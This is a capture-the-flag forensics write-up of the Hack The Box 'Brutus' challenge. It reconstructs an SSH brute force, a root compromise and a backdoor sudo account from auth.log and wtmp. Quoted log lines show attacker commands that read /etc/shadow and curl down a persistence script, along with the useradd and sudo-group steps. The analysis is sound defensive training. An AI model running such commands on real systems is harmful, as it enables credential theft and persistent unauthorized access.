










# HTB Sherlock: Brutus

> A brute-forced SSH root login on a Linux server, followed by a new backdoor account, reconstructed from `auth.log` and `wtmp`.

| Field | Value |
|---|---|
| Platform | Hack The Box, Sherlocks |
| Challenge | Brutus |
| Category | Forensics / Log Analysis |
| Difficulty | Very Easy |
| Artifacts | `Brutus.zip` (encrypted) containing `auth.log`, `wtmp`, `utmp.py` |
| Author | [Z1AD-Z](https://github.com/Z1AD-Z) |
| Part of | [HackTheBox-Writeups](../../../) |

---

## Table of Contents

1. [Scenario](#1-scenario)
2. [Tools Used](#2-tools-used)
3. [Getting the Files](#3-getting-the-files)
4. [First Look at the Artifacts](#4-first-look-at-the-artifacts)
5. [Investigation](#5-investigation)
6. [Attack Timeline](#6-attack-timeline)
7. [Findings Summary](#7-findings-summary)
8. [Limits of This Analysis](#8-limits-of-this-analysis)
9. [Problems I Hit](#9-problems-i-hit)
10. [What I Learned](#10-what-i-learned)
11. [References](#11-references)

---

## 1. Scenario

An SSH brute-force attack was detected against a Linux server hosted on AWS. The attacker got in as `root`, created a new local account, and used it afterwards. The goal is to reconstruct what happened using two files only:

- `auth.log`: a text log of authentication events (sshd logins, sudo, useradd, and so on)
- `wtmp`: a binary record of logins and logouts

I solved it with plain terminal commands, without any extra tool beyond what the challenge provides.

---

## 2. Tools Used

| Tool | Used for |
|---|---|
| `7z` | Listing and extracting the encrypted archive |
| `unzip` | Tried first, does not work on this archive (see section 9) |
| `ls`, `wc -l` | Checking the extracted files |
| `cat`, `grep` | Reading and filtering `auth.log` |
| `strings` | Getting readable text out of the binary `wtmp` |
| `python3 utmp.py` | Reading `wtmp` (script provided with the challenge) |

---

## 3. Getting the Files

The archive password is shown on the challenge download page, next to the file. There is nothing to crack.

First, look inside the archive without extracting it:

```bash
7z l Brutus.zip
```



Three files: `auth.log` (43911 bytes), `wtmp` (11136 bytes) and `utmp.py` (3154 bytes). 7z also prints a warning about 1 byte of data after the end of the archive. It does not prevent extraction.

`unzip` fails on this archive:

```bash
unzip -P <password> Brutus.zip
# skipping: auth.log    unsupported compression method 99
```



Method 99 means the archive is encrypted with AES, which `unzip` does not support. `7z` does:

```bash
7z x Brutus.zip -p'<password from the challenge page>' -o./Brutus_out -y
ls -la Brutus_out/
```



Then a quick size check of the log:

```bash
wc -l Brutus_out/auth.log
# 385
```

---

## 4. First Look at the Artifacts

| | `auth.log` | `wtmp` |
|---|---|---|
| Format | Plain text, 385 lines | Binary |
| Tells me | Who tried to log in, from where, what was run with sudo, accounts created | Which terminal sessions really existed, with start and end times |
| Time zone | UTC | Not UTC (see 5.4) |

`cat wtmp` prints unreadable characters, but the usernames and IP addresses are visible inside the noise. `strings` makes them readable:

```bash
strings wtmp
```

This already shows two IP addresses and three usernames:

- `203.101.190.9` with users `ubuntu` and `root`
- `65.2.161.68` with users `root` and `cyberjunkie`

I did not know yet which one was the attacker, so I moved on to `auth.log`.

---

## 5. Investigation

### 5.1 Attacker IP and brute force

Reading `auth.log` with `cat`, most of the file is cron noise from the `confluence` user. The interesting part starts at 06:31:31, when many lines appear at once:

```text
Mar  6 06:31:31 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:33 sshd[2338]: Failed password for backup from 65.2.161.68 port 46512 ssh2
Mar  6 06:31:37 sshd[2359]: Failed password for invalid user server_adm from 65.2.161.68 port 46596 ssh2
Mar  6 06:31:38 sshd[2383]: Failed password for invalid user svc_account from 65.2.161.68 port 46722 ssh2
Mar  6 06:31:39 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
```



What I notice:

- One IP, `65.2.161.68`, tries several usernames in a few seconds: `admin`, `backup`, `server_adm`, `svc_account`, and finally `root`.
- The server logs `beginning MaxStartups throttling` at 06:31:31 and `exited MaxStartups throttling ... 21 connections dropped` at 06:32:39. The SSH server was dropping connections because too many were opened at once, which fits a tool and not a person typing.
- The other IP, `203.101.190.9`, logs in as `root` at 06:19:54, before the attack, and it also appears in the older `wtmp` sessions from January and February. I treated it as the normal administrator address. This is an assumption based on the data.

**Attacker IP: `65.2.161.68`**

### 5.2 Compromised account

```bash
grep -i "ssh" auth.log
```

The first successful login from the attacker IP:

```text
Mar  6 06:31:40 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```



**Compromised account: `root`**

### 5.3 Two successful logins, not one

The attacker IP has two accepted root logins:

| | Login 1 | Login 2 |
|---|---|---|
| Time in `auth.log` | 06:31:40 | 06:32:44 |
| sshd process | `sshd[2411]` | `sshd[2491]` |
| Session closed | 06:31:40, same second | 06:37:24 |
| Meaning | The brute-force tool found the right password and disconnected | The attacker logging in by hand |

The challenge hint says the same thing: the first success came from the automated brute force and was closed within the same second. The attacker then logged in manually with the password found.

### 5.4 Manual login time (UTC) from wtmp

`wtmp` is read with the script provided in the archive:

```bash
python3 utmp.py wtmp
```

The last rows of the output:

```text
"USER"  "1583"  "pts/0"  "root"         "203.101.190.9"  "2024/03/06 01:19:55"
"USER"  "2549"  "pts/1"  "root"         "65.2.161.68"    "2024/03/06 01:32:45"
"DEAD"  "2491"  "pts/1"                                   "2024/03/06 01:37:24"
"USER"  "2667"  "pts/1"  "cyberjunkie"  "65.2.161.68"    "2024/03/06 01:37:35"
```



The times are not in UTC. The administrator's root login is at 01:19:55 here and at 06:19:54 in `auth.log`, so the `wtmp` output is 5 hours behind. Adding 5 hours:

```text
01:32:45 + 5h = 06:32:45 UTC
```

The challenge asks for the time of the terminal session, which is the `wtmp` value. `auth.log` shows the password check one second earlier (06:32:44).

**Manual login time: `2024-03-06 06:32:45` UTC**

### 5.5 Session number

```bash
grep -i "New session" auth.log | grep root
```

```text
Mar  6 06:19:54 systemd-logind[411]: New session 6 of user root.
Mar  6 06:31:40 systemd-logind[411]: New session 34 of user root.
Mar  6 06:32:44 systemd-logind[411]: New session 37 of user root.
```



Session 6 is the administrator, session 34 is the automated login, and session 37 (06:32:44) is the attacker's manual session.

**Session number: `37`**

### 5.6 Persistence: the new account

```bash
grep -i "useradd" auth.log
```

```text
Mar  6 06:34:18 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
```



Then every line that mentions the new account:

```bash
grep -i "cyberjunkie" auth.log
```

```text
06:34:18  groupadd   new group: name=cyberjunkie, GID=1002
06:34:18  useradd    new user: name=cyberjunkie ... from=/dev/pts/1
06:34:26  passwd     password changed for cyberjunkie
06:34:31  chfn       changed user 'cyberjunkie' information
06:35:15  usermod    add 'cyberjunkie' to group 'sudo'
06:37:34  sshd       Accepted password for cyberjunkie from 65.2.161.68
06:37:34  systemd-logind  New session 49 of user cyberjunkie
```



What this shows, step by step:

- The account is created from `/dev/pts/1`, which is the attacker's manual root session.
- The attacker sets a password for it, so they can log in later without the `root` password.
- They add it to the `sudo` group, so the account has administrator rights.
- They log in with it at 06:37:34, ten seconds after closing the root session.

**Persistence account: `cyberjunkie`**

### 5.7 What the attacker did with the account

```bash
grep -i "sudo" auth.log
```

```text
Mar  6 06:37:57 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:39:38 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```



- 06:37:57: the attacker reads `/etc/shadow`, the file that stores the password hashes of the system accounts.
- 06:39:38: the attacker uses `curl` as root to download a script from a GitHub repository.

The log only records the command. The script itself is not in the artifacts, so I cannot say what it did.

### 5.8 MITRE ATT&CK sub-technique

The question asks for the sub-technique used for persistence by creating a new account. What the attacker did is run `useradd` to make a local account. I looked on the MITRE ATT&CK website for the technique that matches this and found:

**T1136.001, Create Account: Local Account** (tactic: Persistence)

### 5.9 End of the manual session and its duration

```text
Mar  6 06:37:24 sshd[2491]: pam_unix(sshd:session): session closed for user root
```

The same time appears in `wtmp` (DEAD row at 01:37:24, which is 06:37:24 UTC after adding 5 hours).

**Session end: `2024-03-06 06:37:24` UTC**

Duration of the manual session:

```text
06:32:45 -> 06:37:24 = 4 min 39 s = 279 seconds
```

---

## 6. Attack Timeline

All times are UTC.

```text
06:19:54  [admin]    root logs in from 203.101.190.9 (session 6)
   |
06:31:31  [attack]   brute force starts from 65.2.161.68
   |                 users tried: admin, backup, server_adm, svc_account, root
   |
06:31:40  [attack]   valid root password found, session 34 opens and closes in the same second
   |
06:32:44  [attack]   manual root login (session 37, wtmp: 06:32:45)
   |
06:34:18  [persist]  account cyberjunkie created (useradd, from pts/1)
06:34:26  [persist]  password set for cyberjunkie
06:35:15  [persist]  cyberjunkie added to the sudo group
   |
06:37:24  [attack]   root session closes (279 seconds)
06:37:34  [persist]  cyberjunkie logs in from 65.2.161.68 (session 49)
   |
06:37:57  [post]     sudo cat /etc/shadow
06:39:38  [post]     sudo curl of a script from GitHub
```

---

## 7. Findings Summary

| Item | Answer |
|---|---|
| Attacker IP address | `65.2.161.68` |
| Compromised account | `root` |
| Manual login time (UTC, from `wtmp`) | `2024-03-06 06:32:45` |
| Session number | `37` |
| Persistence account | `cyberjunkie` |
| MITRE ATT&CK sub-technique | `T1136.001` |
| Manual session end time (UTC) | `2024-03-06 06:37:24` |
| Manual session duration (calculated) | `279` seconds |
| Command run with sudo to download a script | `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` |

---

## 8. Limits of This Analysis

- I only have two files. I can see that the root password was guessed, but not how weak it was or where the attacker got the list.
- I assumed `203.101.190.9` is the legitimate administrator because of its history in the logs. Nothing in the files proves it.
- The downloaded script is not in the artifacts, so what it did after the download is unknown.
- The 5-hour offset of `wtmp` was found by comparing two timestamps. I did not find out why `utmp.py` shows that time zone.

---

## 9. Problems I Hit

| Problem | What happened | What fixed it |
|---|---|---|
| `unzip` error | `unsupported compression method 99` | Use `7z`, which supports AES |
| Empty files | `auth.log`, `wtmp` and `utmp.py` were 0 bytes after the first attempts | Extracted again with `7z x ... -o./Brutus_out -y` into a clean folder and checked with `ls -la` |
| Empty output folder | The extraction folder had nothing in it after my first try | Same extraction with an explicit output folder; I also made a copy of the zip with the extra byte removed, and both versions extracted correctly |
| `last -f wtmp` failed | `sqlite_read_all: SQL error: file is not a database` after installing `wtmpdb` | Used the `utmp.py` script from the challenge instead |
| `utmpdump` not found | The command is not installed on my Kali, and `apt install utmpdump` finds no package | `strings wtmp` for a first look, `utmp.py` for the real output |
| Tried to crack the zip | I first thought I needed to brute force the archive | The password was on the challenge page, next to the download |

---

## 10. What I Learned

1. Look at the challenge page before trying to crack anything. The archive password was provided.
2. `unzip` and `7z` are not the same. An AES-encrypted zip needs `7z`.
3. `wtmp` is a binary file. `cat` is useless on it, `strings` gives a first look, and `utmp.py` gives the real records.
4. Two files can use two time zones. Compare one event that appears in both files (here the administrator's login) to find the offset before correlating anything.
5. A session that opens and closes in the same second after many failed attempts is the brute-force tool confirming a password. The attacker's real activity is the session that lasts.
6. Creating an account, setting its password and adding it to the `sudo` group are all logged in `auth.log`, so persistence of this kind leaves clear traces.
7. Check an answer against the log before submitting it. Several of my first answers were wrong until I went back to the exact lines.

---

## 11. References

- [Hack The Box Sherlocks](https://app.hackthebox.com/sherlocks)
- [MITRE ATT&CK T1136.001, Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)

---

> The challenge files (`Brutus.zip`, `auth.log`, `wtmp`, `utmp.py`) belong to Hack The Box and are not included in this repository. This writeup covers a retired training scenario and is for educational purposes only.